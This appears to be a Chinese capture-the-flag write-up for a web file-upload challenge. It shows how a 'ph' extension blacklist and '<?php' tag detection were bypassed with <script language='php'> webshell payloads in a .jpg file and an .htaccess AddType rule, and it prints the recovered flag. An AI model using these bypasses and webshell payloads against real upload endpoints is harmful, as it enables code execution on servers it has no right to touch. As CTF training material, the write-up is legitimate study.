

# [极客大挑战 2019]Upload

## 题目来源

[极客大挑战 2019]Upload

## 题目方向 + 知识点

Web 文件上传、黑名单后缀过滤、`<?php` 关键字绕过、`.htaccess` 改解析、图片后缀执行 PHP。

## 解题思路

这题打开首页之后，页面非常干净，只有一个上传表单，没有别的功能点，




所以一眼就能判断主考点就是文件上传。既然是上传题，我没有急着乱试后缀，而是先按上传题最常见的分析顺序来：先看后端给的报错信息到底在提示什么。

我先随便传了几个真实文件测试，但是很奇怪的是找不到一个真正可以上传的文件 不是很理解 最后测试发现需要文件类型属于

Content-Type: image/jpeg 但是内容不能是正常内容 反而不正常能过 

结果页面回显了两句非常关键的话：

```text
上传类型也太露骨了吧！--Content-Type: image/jpeg
后缀名不能有ph！
```

这两句其实已经把题目思路说得很明显了。第一句说明服务端对上传内容做了一层判断；第二句说明文件名里只要出现 `ph` 就会被拦，也就是说像 `.php`、`.phtml` 这种常见的 PHP 后缀都走不通。

我接着继续测，发现如果文件名里带 `ph`，不管怎么变形，都会被这条规则挡住。所以这题不能再走“直接上传可执行 PHP 后缀”这条线，而是应该转到另一种经典思路：先上传一个图片后缀的脚本文件，再配合 `.htaccess` 把这个后缀强行解析成 PHP。

但这里还有一个问题：如果脚本内容里直接写 `<?php ... ?>`，也很容易被服务端识别。所以我没有使用标准 PHP 标签，而是换成了另一种写法：

```html
<script language="php">echo file_get_contents("/flag");</script>
```

这段代码的作用很直接，就是访问文件时直接读取 `/flag` 并输出结果。之所以这么写，是为了绕过对 `<?php` 这种明显 PHP 标签的检查。

于是我先上传第一个文件，文件名是：

```text
shell.jpg
```

文件内容是：

```html
<script language="php">echo file_get_contents("/flag");</script>

<script language="php">echo file_get_contents("/flag");</script>

<script language="php">readfile("/flag");</script>

<script language="php">system("cat /flag");</script>

<script language="php">passthru("cat /flag");</script>

<script language="php">eval('system("cat /flag");');</script>
```

上传之后页面返回了真实保存路径：

```text
/var/www/html/upload/ccf1b4a906aaaba756bd6a3ab29949b0/shell.jpg succesfully uploaded!
```

这一步非常关键，因为它说明两件事：

1. 上传是成功的；
2. 当前会话对应的上传目录已经确定了，后面只要想办法让这个目录里的 `.jpg` 按 PHP 解析，就能直接利用这个文件。

接下来我在**同一个会话**里继续上传第二个文件，也就是 `.htaccess`。内容如下：

```apache
AddType application/x-httpd-php .jpg
```

这条配置的意思是：把当前目录里的 `.jpg` 文件当成 PHP 来解析。上传成功后页面同样回显路径：

```text
/var/www/html/upload/ccf1b4a906aaaba756bd6a3ab29949b0/.htaccess succesfully uploaded!
```

这里一定要注意，`.htaccess` 和 `shell.jpg` 必须在同一个上传目录里才行，所以必须保持同一个会话，否则目录变了，配置文件就作用不到前面那个 `shell.jpg`。

到这一步，利用链已经完整了：

1. `shell.jpg` 已经上传成功；
2. 里面的内容是可执行的 PHP 脚本写法；
3. `.htaccess` 又把 `.jpg` 改成了 PHP 解析类型。

所以最后我直接访问：

```text
http://676d5e641baf7f6fbfeef033.http-ctf2.dasctf.com/upload/ccf1b4a906aaaba756bd6a3ab29949b0/shell.jpg
```

页面直接返回了 flag：

```text
CTF2{43324e68-e9e5-4f78-89b4-fcc95424a3a4}
```

整道题的核心就在于：直接上传 PHP 后缀会被 `ph` 黑名单拦住，所以必须换思路，利用 `.htaccess` 去修改目录内文件的解析规则；同时为了绕过对标准 PHP 标签的识别，又把脚本内容写成了 `<script language="php">...</script>`。最终实现了“图片后缀文件执行 PHP 代码”，顺利读出 `/flag`。

## Flag

`CTF2{43324e68-e9e5-4f78-89b4-fcc95424a3a4}`